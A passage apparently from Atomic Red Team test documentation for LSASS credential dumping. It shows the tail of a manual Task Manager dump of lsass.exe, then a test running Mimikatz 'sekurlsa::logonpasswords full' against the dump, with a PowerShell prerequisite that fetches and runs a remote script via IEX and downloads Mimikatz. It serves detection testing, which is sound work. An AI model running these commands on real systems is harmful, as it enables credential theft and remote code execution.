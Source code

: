 2. Select lsass.exe:
  If lsass.exe is not visible, select "Show processes from all users". This will allow you to observe execution of lsass.exe
  and select it for manipulation.

3. Dump lsass.exe memory:
  Right-click on lsass.exe in Task Manager. Select "Create Dump File". The following dialog will show you the path to the saved file.







<br/>
<br/>

## Atomic Test #6 - Offline Credential Theft With Mimikatz
The memory of lsass.exe is often dumped for offline credential theft attacks. Adversaries commonly perform this offline analysis with
Mimikatz. This tool is available at https://github.com/gentilkiwi/mimikatz and can be obtained using the get-prereq_commands.

**Supported Platforms:** Windows


**auto_generated_guid:** 453acf13-1dbd-47d7-b28a-172ce9228023





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the Lsass dump | path | %tmp%&#92;lsass.DMP|
| mimikatz_exe | Path of the Mimikatz binary | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{mimikatz_exe}" "sekurlsa::minidump #{input_file}" "sekurlsa::logonpasswords full" exit
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: Lsass dump must exist at specified location (#{input_file})